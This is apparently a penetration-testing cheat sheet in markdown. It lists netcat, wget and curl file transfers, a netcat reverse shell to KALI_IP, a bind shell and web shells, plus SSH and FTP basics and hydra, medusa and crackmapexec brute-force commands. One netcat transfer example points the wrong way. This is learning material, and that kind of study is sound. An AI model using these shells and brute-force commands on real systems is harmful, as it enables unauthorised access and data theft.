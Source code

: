 ```yaml
---
title: "Network Penetration Testing Fundamental 2"
tags:
    - Enumeration
    - Dorks
    - Wireshark
date: "2024-08-01"
thumbnail: "/assets/img/thumbnail/networkbasics.jpeg"
bookmark: true
---
```

# Description
---
# File Transfer (Linux)
1. Netcat
From target to my machine
In my machine:
```bash
nc -nvlp 8082 > backup
```
In the target:
```bash
nc [ip my machine] 8082 < /usr/local/bin/backup
```
From my machine to target
In the target:
```bash
nc -nvlp 8082 > backup
```
In my machine:
```bash
nc [ip my machine] 8082 < /usr/local/bin/backup
```
2. Wget
From my machine to target
In my machine:
```bash
python3 -m http.server port
```
In the target:
```bash
wget http://my_ip:port/test.py
```
3. Curl
From my machine to target
In my machine:
```bash
python3 -m http.server port
```
In the target:
```bash
curl http://my_ip:port/test.py -o test.py
```
4. Base64
From my machine to target
In my machine:
```bash
cat ‘file.zip' | base64
```
In the target:
```bash
cat base64.txt | base64 -d > file.zip
```
# Shells
1. Reverse Shell
Basic Reverse Shell
    Start listener on Kali
```bash
nc -lvnp 9000
```
    Send reverse shell from victim back to Kali
```bash
nc KALI_IP 9000 -e /bin/sh
```
2. Bind Shell
Basic Bind Shell
    Start bind shell on victim machine
```bash
nc -lvnp 9000 -e /bin/sh
```
    Connect to bind shell from Kali
```bash
nc -nv VICTIM_IP 9000
```
3. Web Shell
Depend on:
    Language
    Server
On Kali:
```bash
/usr/share/webshells
```
# Network Services
SSH (Secure Shell)
1. Basic Usage (login)
```bash
ssh username@10.10.10.10
```
2. Generating a Key Pair
```bash
ssh-keygen
```
3. Key-based Login
```bash
ssh -i keyfile username@10.10.10.10
```
4. Password Cracking
```bash
    crackmapexec ssh 10.10.10.10 -u small_user.txt -p pass.txt
    medusa -h 10.10.10.10 -U small_user.txt -P pass.txt -M ssh
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh
```
FTP (File Transfer Protocol)
1. Basic Usage (login)
```bash
ftp 10.10.10.10
```
2. Commands
```bash
ftp> ls
ftp> cd foldername
ftp> get filename
ftp> put filename
```
3. Using Binary Mode to Avoid Uploading Corrupted Files
```bash
ftp> binary
```
4. Default Credentials
    `Username: Anonymous`
    `Password: ftp`